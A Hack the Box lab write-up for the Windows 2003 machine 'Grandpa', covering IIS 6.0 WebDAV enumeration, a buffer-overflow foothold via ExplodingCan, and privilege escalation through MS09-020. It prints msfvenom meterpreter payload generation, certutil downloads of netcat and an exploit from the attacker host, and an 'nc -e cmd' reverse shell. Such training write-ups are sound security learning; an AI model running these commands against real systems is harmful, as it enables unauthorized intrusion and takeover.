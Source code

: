```yaml
---
title: Grandpa
tags: windows
description: Write-up for Hack the Box - Grandpa
---
```


![image](assets/79370442-a872d380-7f20-11ea-9bee-96540fa480e8.png)

## Overview

Granpda is a Windows 2003 box running IIS 6.0 with webdav enabled. IIS was vulerable to the ScStoragePathFromUrl Remote Buffer Overflow. I used an NSA exploit that was leaked by the Shadow Brokers called ExplodingCan to get intial foothold. From there I used the windows exploit suggester tool and determined that the box was vulnerable to MS09-020 which allowed me to set up a meterpreter reverse shell and get a callback as 'nt authority\system'

## Enumeration

**Software**

* Microsoft(R) Windows(R) Server 2003, Standard Edition
* IIS 6.0
* ASP.NET 1.1.4322

**Port Scan**

```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/grandpa/_full_tcp_nmap.txt
```

* 80/tcp

![image](assets/81748967-c6c4e400-9478-11ea-9483-32cc75edc2f1.png)

**Nikto Scan**

```
nikto -h 10.10.10.14
```

![image](assets/81599563-a1f84000-9396-11ea-845d-99a96104b8ab.png)

**Davtest**

```
davtest -url http://10.10.10.14
```

![image](assets/81748823-7cdbfe00-9478-11ea-838d-2c8d9d679566.png)

## Steps (user)

Browsing to http://10.10.10.14 shows the default "Under Contruction" page. I ran a Nikto which showed some potential vulnerabilities but none of them applied. Gobuster also did not turn up anything useful. 

According to the nmap scan this server was running webdav so I ran a scan with a [davtest](https://tools.kali.org/web-applications/davtest) which is a tool that tests uploading different executable file types. All the tests failed so I moved on.

> Web Distributed Authoring and Versioning ([WebDAV](https://en.wikipedia.org/wiki/WebDAV)) is an extension to the HTTP protocol that allows creating, moving, copying, and deleting files/resources on remote web servers.

Internet Information Services 6.0 was released with Windows Server 2003 and is really old at this point. I ran a search in searchsploit for IIS 6.0 and there were a few results. 

![image](assets/81601942-bc7fe880-9399-11ea-965b-039513823121.png)

I didn't have any luck with "WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow" (41738.py). I swapped out the shellcode in the script for my own and I got a shell but it immediately died. I did an internet search for other exploits that might exist for this vulnerability and I came across explodingcan.

> https://github.com/danigargu/explodingcan

I generated a staged meterpreter payload with msfvenom because the unstaged payload without meterpreter was calling back but immediately dropping the connection (like 41738.py).

I generated a payload with MSFVenom and output a file

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.22 lport=4200 -f raw -e x86/alpha_mixed > shellcode
```

I fired up metasploit and set up a meterpreter listener

```
msfdb run
set exploit/multi/handler
set payload 
set lhost 10.10.14.22
set lport 4200
set payload windows/meterpreter/reverse_tcp
run
```

From my box I ran the exploitcan script specifying the target IP and the name of the file that I saved the shellcode to.

```
explodingcan.py http://10.10.10.14 shellcode
```

I received a callback and shell as 'nt authority\network service'

![image](assets/81610251-37033500-93a7-11ea-92f0-a0644f249bfd.png)

## Steps (root/system)

I used Windows Exploit Suggester to look for kernel exploits to escalate privileges. This tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

I ran the systeminfo command on the target system, copied the output to sysinfo.txt, and fed it into wes.py

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/81613484-9152c480-93ac-11ea-9cfe-fac6185a8b23.png)

This box appeared to be vulnerable to MS09-020 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip. 

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I downloaded a copy of the exploit and netcat into my working directory, and started up a python http server.

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip
unzip MS09-020-KB970483-CVE-2009-1535-IIS6.zip
cd MS09-020-KB970483-CVE-2009-1535-IIS6
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

On the target I used certutil to download netcat and the exploit to the box

```
cd c:\windows\temp
certutil -urlcache -split -f http://10.10.14.22/IIS6.0.exe
certutil -urlcache -split -f http://10.10.14.22/nc.exe
```

I then set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit on the target box specifying netcat and the host and IP address of my box.

```
iis6.exe "nc -e cmd 10.10.14.22 4201"
```

I received shell as 'nt authority\system'

![image](assets/81615769-23100100-93b0-11ea-94a2-61504684d8e2.png)
